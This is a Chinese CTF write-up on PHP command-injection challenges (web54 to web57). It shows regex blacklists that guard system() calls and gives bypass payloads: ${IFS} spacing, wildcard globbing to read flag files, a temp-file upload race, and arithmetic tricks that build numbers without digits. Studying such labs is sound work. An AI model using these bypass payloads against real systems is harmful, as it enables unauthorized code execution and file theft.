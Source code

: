 视频学到的姿势：(可能会用得到)

- 文件复制: `cp flag.php a.txt`    `cp${IFS}fla?g.php${IFS}a.txt`
- 文件命名: `mv flag.php a.txt`    `cp${IFS}fla?g.php${IFS}a.txt`

#### web54 过滤引号过滤

```php
if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
```

官方payload: `/bin/?at${IFS}f???????`

别人的payload：`paste${IFS}fla?.php`



#### web55 无字母数字rce

```php
if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
```

- `source filename`和 `. filename` 可以在linux下执行脚本文件
- 构造POST提交网页，可以往php服务器里提交脚本文件
- 一般来说这个文件在linux下面保存在`/tmp/php??????`一般后面的6个字符是随机生成的有大小写。（可以通过linux的匹配符去匹配）

随便上传文件，然后抓包修改为脚本文件，再添加参数`?c=. /???/????????[@-[]`，形成竞争
**注：后面的`[@-[]`是linux下面的匹配符，是进行匹配的大写字母。**

此处没有过滤特殊符号以及空格

![](https://s2.loli.net/2022/01/19/sVjHNiByPx8Cquv.png)

#### web57 符号运算拼凑36

```php
//flag in 36.php
if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
```

payload:`$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))))))`

注意取反的时候会减一，即要在`$((~$((37))))`

原理是：
`${_}=""`
